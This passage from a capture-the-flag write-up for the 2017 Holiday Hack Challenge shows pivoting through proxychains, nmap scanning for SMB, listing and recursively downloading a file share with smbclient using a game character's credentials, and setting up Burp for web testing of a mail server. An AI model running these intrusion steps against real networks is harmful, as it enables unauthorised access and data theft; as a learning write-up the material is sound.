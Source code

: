 ```
proxychains nmap -n -Pn -PS445 -sT -p445 10.142.0.1/24
```

![Proxychains nmap output](/images/2018/01/proxychains_nmap.png)

Once I had the server identified (10.142.0.7), I used the command line tool `smbclient` to access the server and list the shares with Alabaster's credentials:

```
proxychains smbclient -L 10.142.0.7 -p 445 -U alabaster_snowball%stream_unhappy_buy_loss
```

![Proxychains smb list](/images/2018/01/proxychains_smb_list.png)

The share "FileStor" was probably what I was looking for, so I connected to it with smbclient and used a series of commands to recursively download every file on it:

```
$ proxychains smbclient //10.142.0.7/FileStor -p 445 -U alabaster_snowball%stream_unhappy_buy_loss
ProxyChains-3.1 (http://proxychains.sf.net)
WARNING: The "syslog" option is deprecated
|S-chain|-<>-127.0.0.1:9090-<><>-10.142.0.7:445-<><>-OK
Try "help" to get a list of possible commands.
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

This got me every file on the SMB share, including GreatBookPage3.pdf

## Answer to Question 3
> The North Pole engineering team uses a Windows SMB server for sharing documentation and correspondence. Using your access to the Letters to Santa server, identify and enumerate the SMB file-sharing server. What is the file server share name?

**hhc17-smb-server.c.holidayhack2017.internal**

# Elf Web Access
For the next challenges, I decided to switch from using my VPS to setting up my local machine so I could use a browser. The set up I went with was to use Putty to do dynamic port forwarding, then proxy FireFox to Burp Suite, and tell Burp Suite to use an upstream socks proxy (the SSH dynamic port forward on localhost). I also told Burp to perform DNS lookups through the socks proxy:

![Burp socks proxy](/images/2018/01/burp_socks_proxy.png)

The end result was that I could browse and do all my web app testing from Firefox on my local machine, while capturing requests and being able to tamper with them in Burp:

![ewa with foxyproxy](/images/2018/01/ewa_foxyproxy.png)

Unfortunately, Alabaster's password didn't work on the mail server, so I had to figure something else out. First, I noticed that robots.txt had an entry for "/cookie.txt" which contained some source code explaining how Alabaster was encrypting the cookies: http://mail.northpolechristmastown.com/cookie.txt
